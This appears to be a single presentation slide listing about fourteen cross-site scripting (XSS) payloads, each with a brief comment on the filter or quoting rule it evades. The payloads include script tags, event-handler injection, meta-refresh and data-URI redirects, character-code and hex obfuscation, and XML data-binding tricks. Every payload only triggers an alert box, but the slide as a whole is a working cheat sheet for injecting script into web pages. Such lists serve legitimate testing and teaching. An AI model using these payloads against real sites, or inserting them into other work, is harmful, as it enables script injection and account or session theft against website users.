

XSS vectors
1) <script>alert(1)</script> //basic
2) “><script>alert(1)</script> //bypass a open tag
3) <!--<img src="--><img src=x onerror=alert(1)//"> //bypass & generate a error
4) “ onmouseover=”alert(1)” //all javascript events
5) alert(/XSS/.source) or alert( String(/Test/).substr(1,4) ); //some other simple vectors
6) <script>alert(String.fromCharCode(88,83,83));</script> //bypass quotes filters
7) <IMG SRC=&#106;&#97;&#118;&#97;&#115…;> //unicode injection; utf-8, hex, decimal or octal injection may work
8) <meta http-equiv="refresh" content="0;url=http://;javascript:..." // evasion
9) <style type=text/javascript>alert('xss')</style> //javascript injection based on style tag
 10) “><img src=”x:x” onerror=”alert(0)”> // :D
11) <META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
12) <META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
13) <XML ID="xss"><I><B>&lt;IMG SRC="javas<!-- -->cript:alert('XSS')"&gt;</B></I></XML>
14) <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN> //xss in xml document
x='\x61\x6c\x65\x72\x74\x28\x31\x29'; new Function(x)(); //something different from  every day injections